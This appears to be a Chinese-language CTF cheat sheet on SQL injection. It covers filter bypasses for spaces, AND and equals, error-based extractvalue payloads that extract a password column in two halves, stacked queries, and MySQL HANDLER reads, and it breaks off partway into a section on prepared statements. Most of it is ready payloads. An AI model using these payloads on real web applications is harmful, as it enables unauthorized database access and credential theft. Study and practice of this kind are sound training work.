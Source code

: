 #  2.SQL注入

## 1.过滤

1.空格过滤使用括号绕过或者时候/**/

2.and过滤使用^连接

3.等号过滤使用like



## 2.技巧

**1.**4.username=44&password=1'^extractvalue(1,concat(0x7e,(select(password)from(geek.H4rDsq1))))%23 

from(geek.H4rDsq1) 前面是库名，后面是表名

**2.**flag分为前后flag

username=44&password=1%27^extractvalue(1,concat(0x7e,(select(left(password,30))from(geek.H4rDsq1))))%23



username=44&password=1%27^extractvalue(1,concat(0x7e,(select(right(password,30))from(geek.H4rDsq1))))%23

将前后flag拼接



## 3.堆叠注入

1'; show tables;#

命令使用分号隔开

## 4.Mysql :handler命令（select被过滤）

handle 不是通用的sql语句，是Mysql独有的，可以逐行浏览某个表中的数据

handler 表名 open；打开表

handler 表名 read first；查看数据

handler 表名 read close;关闭表

geekuser,l0ve1ysq1



## 5.预编译

相当于将一个语句写入另一个语句，执行另一个语句

举例：查询ID为1的用户
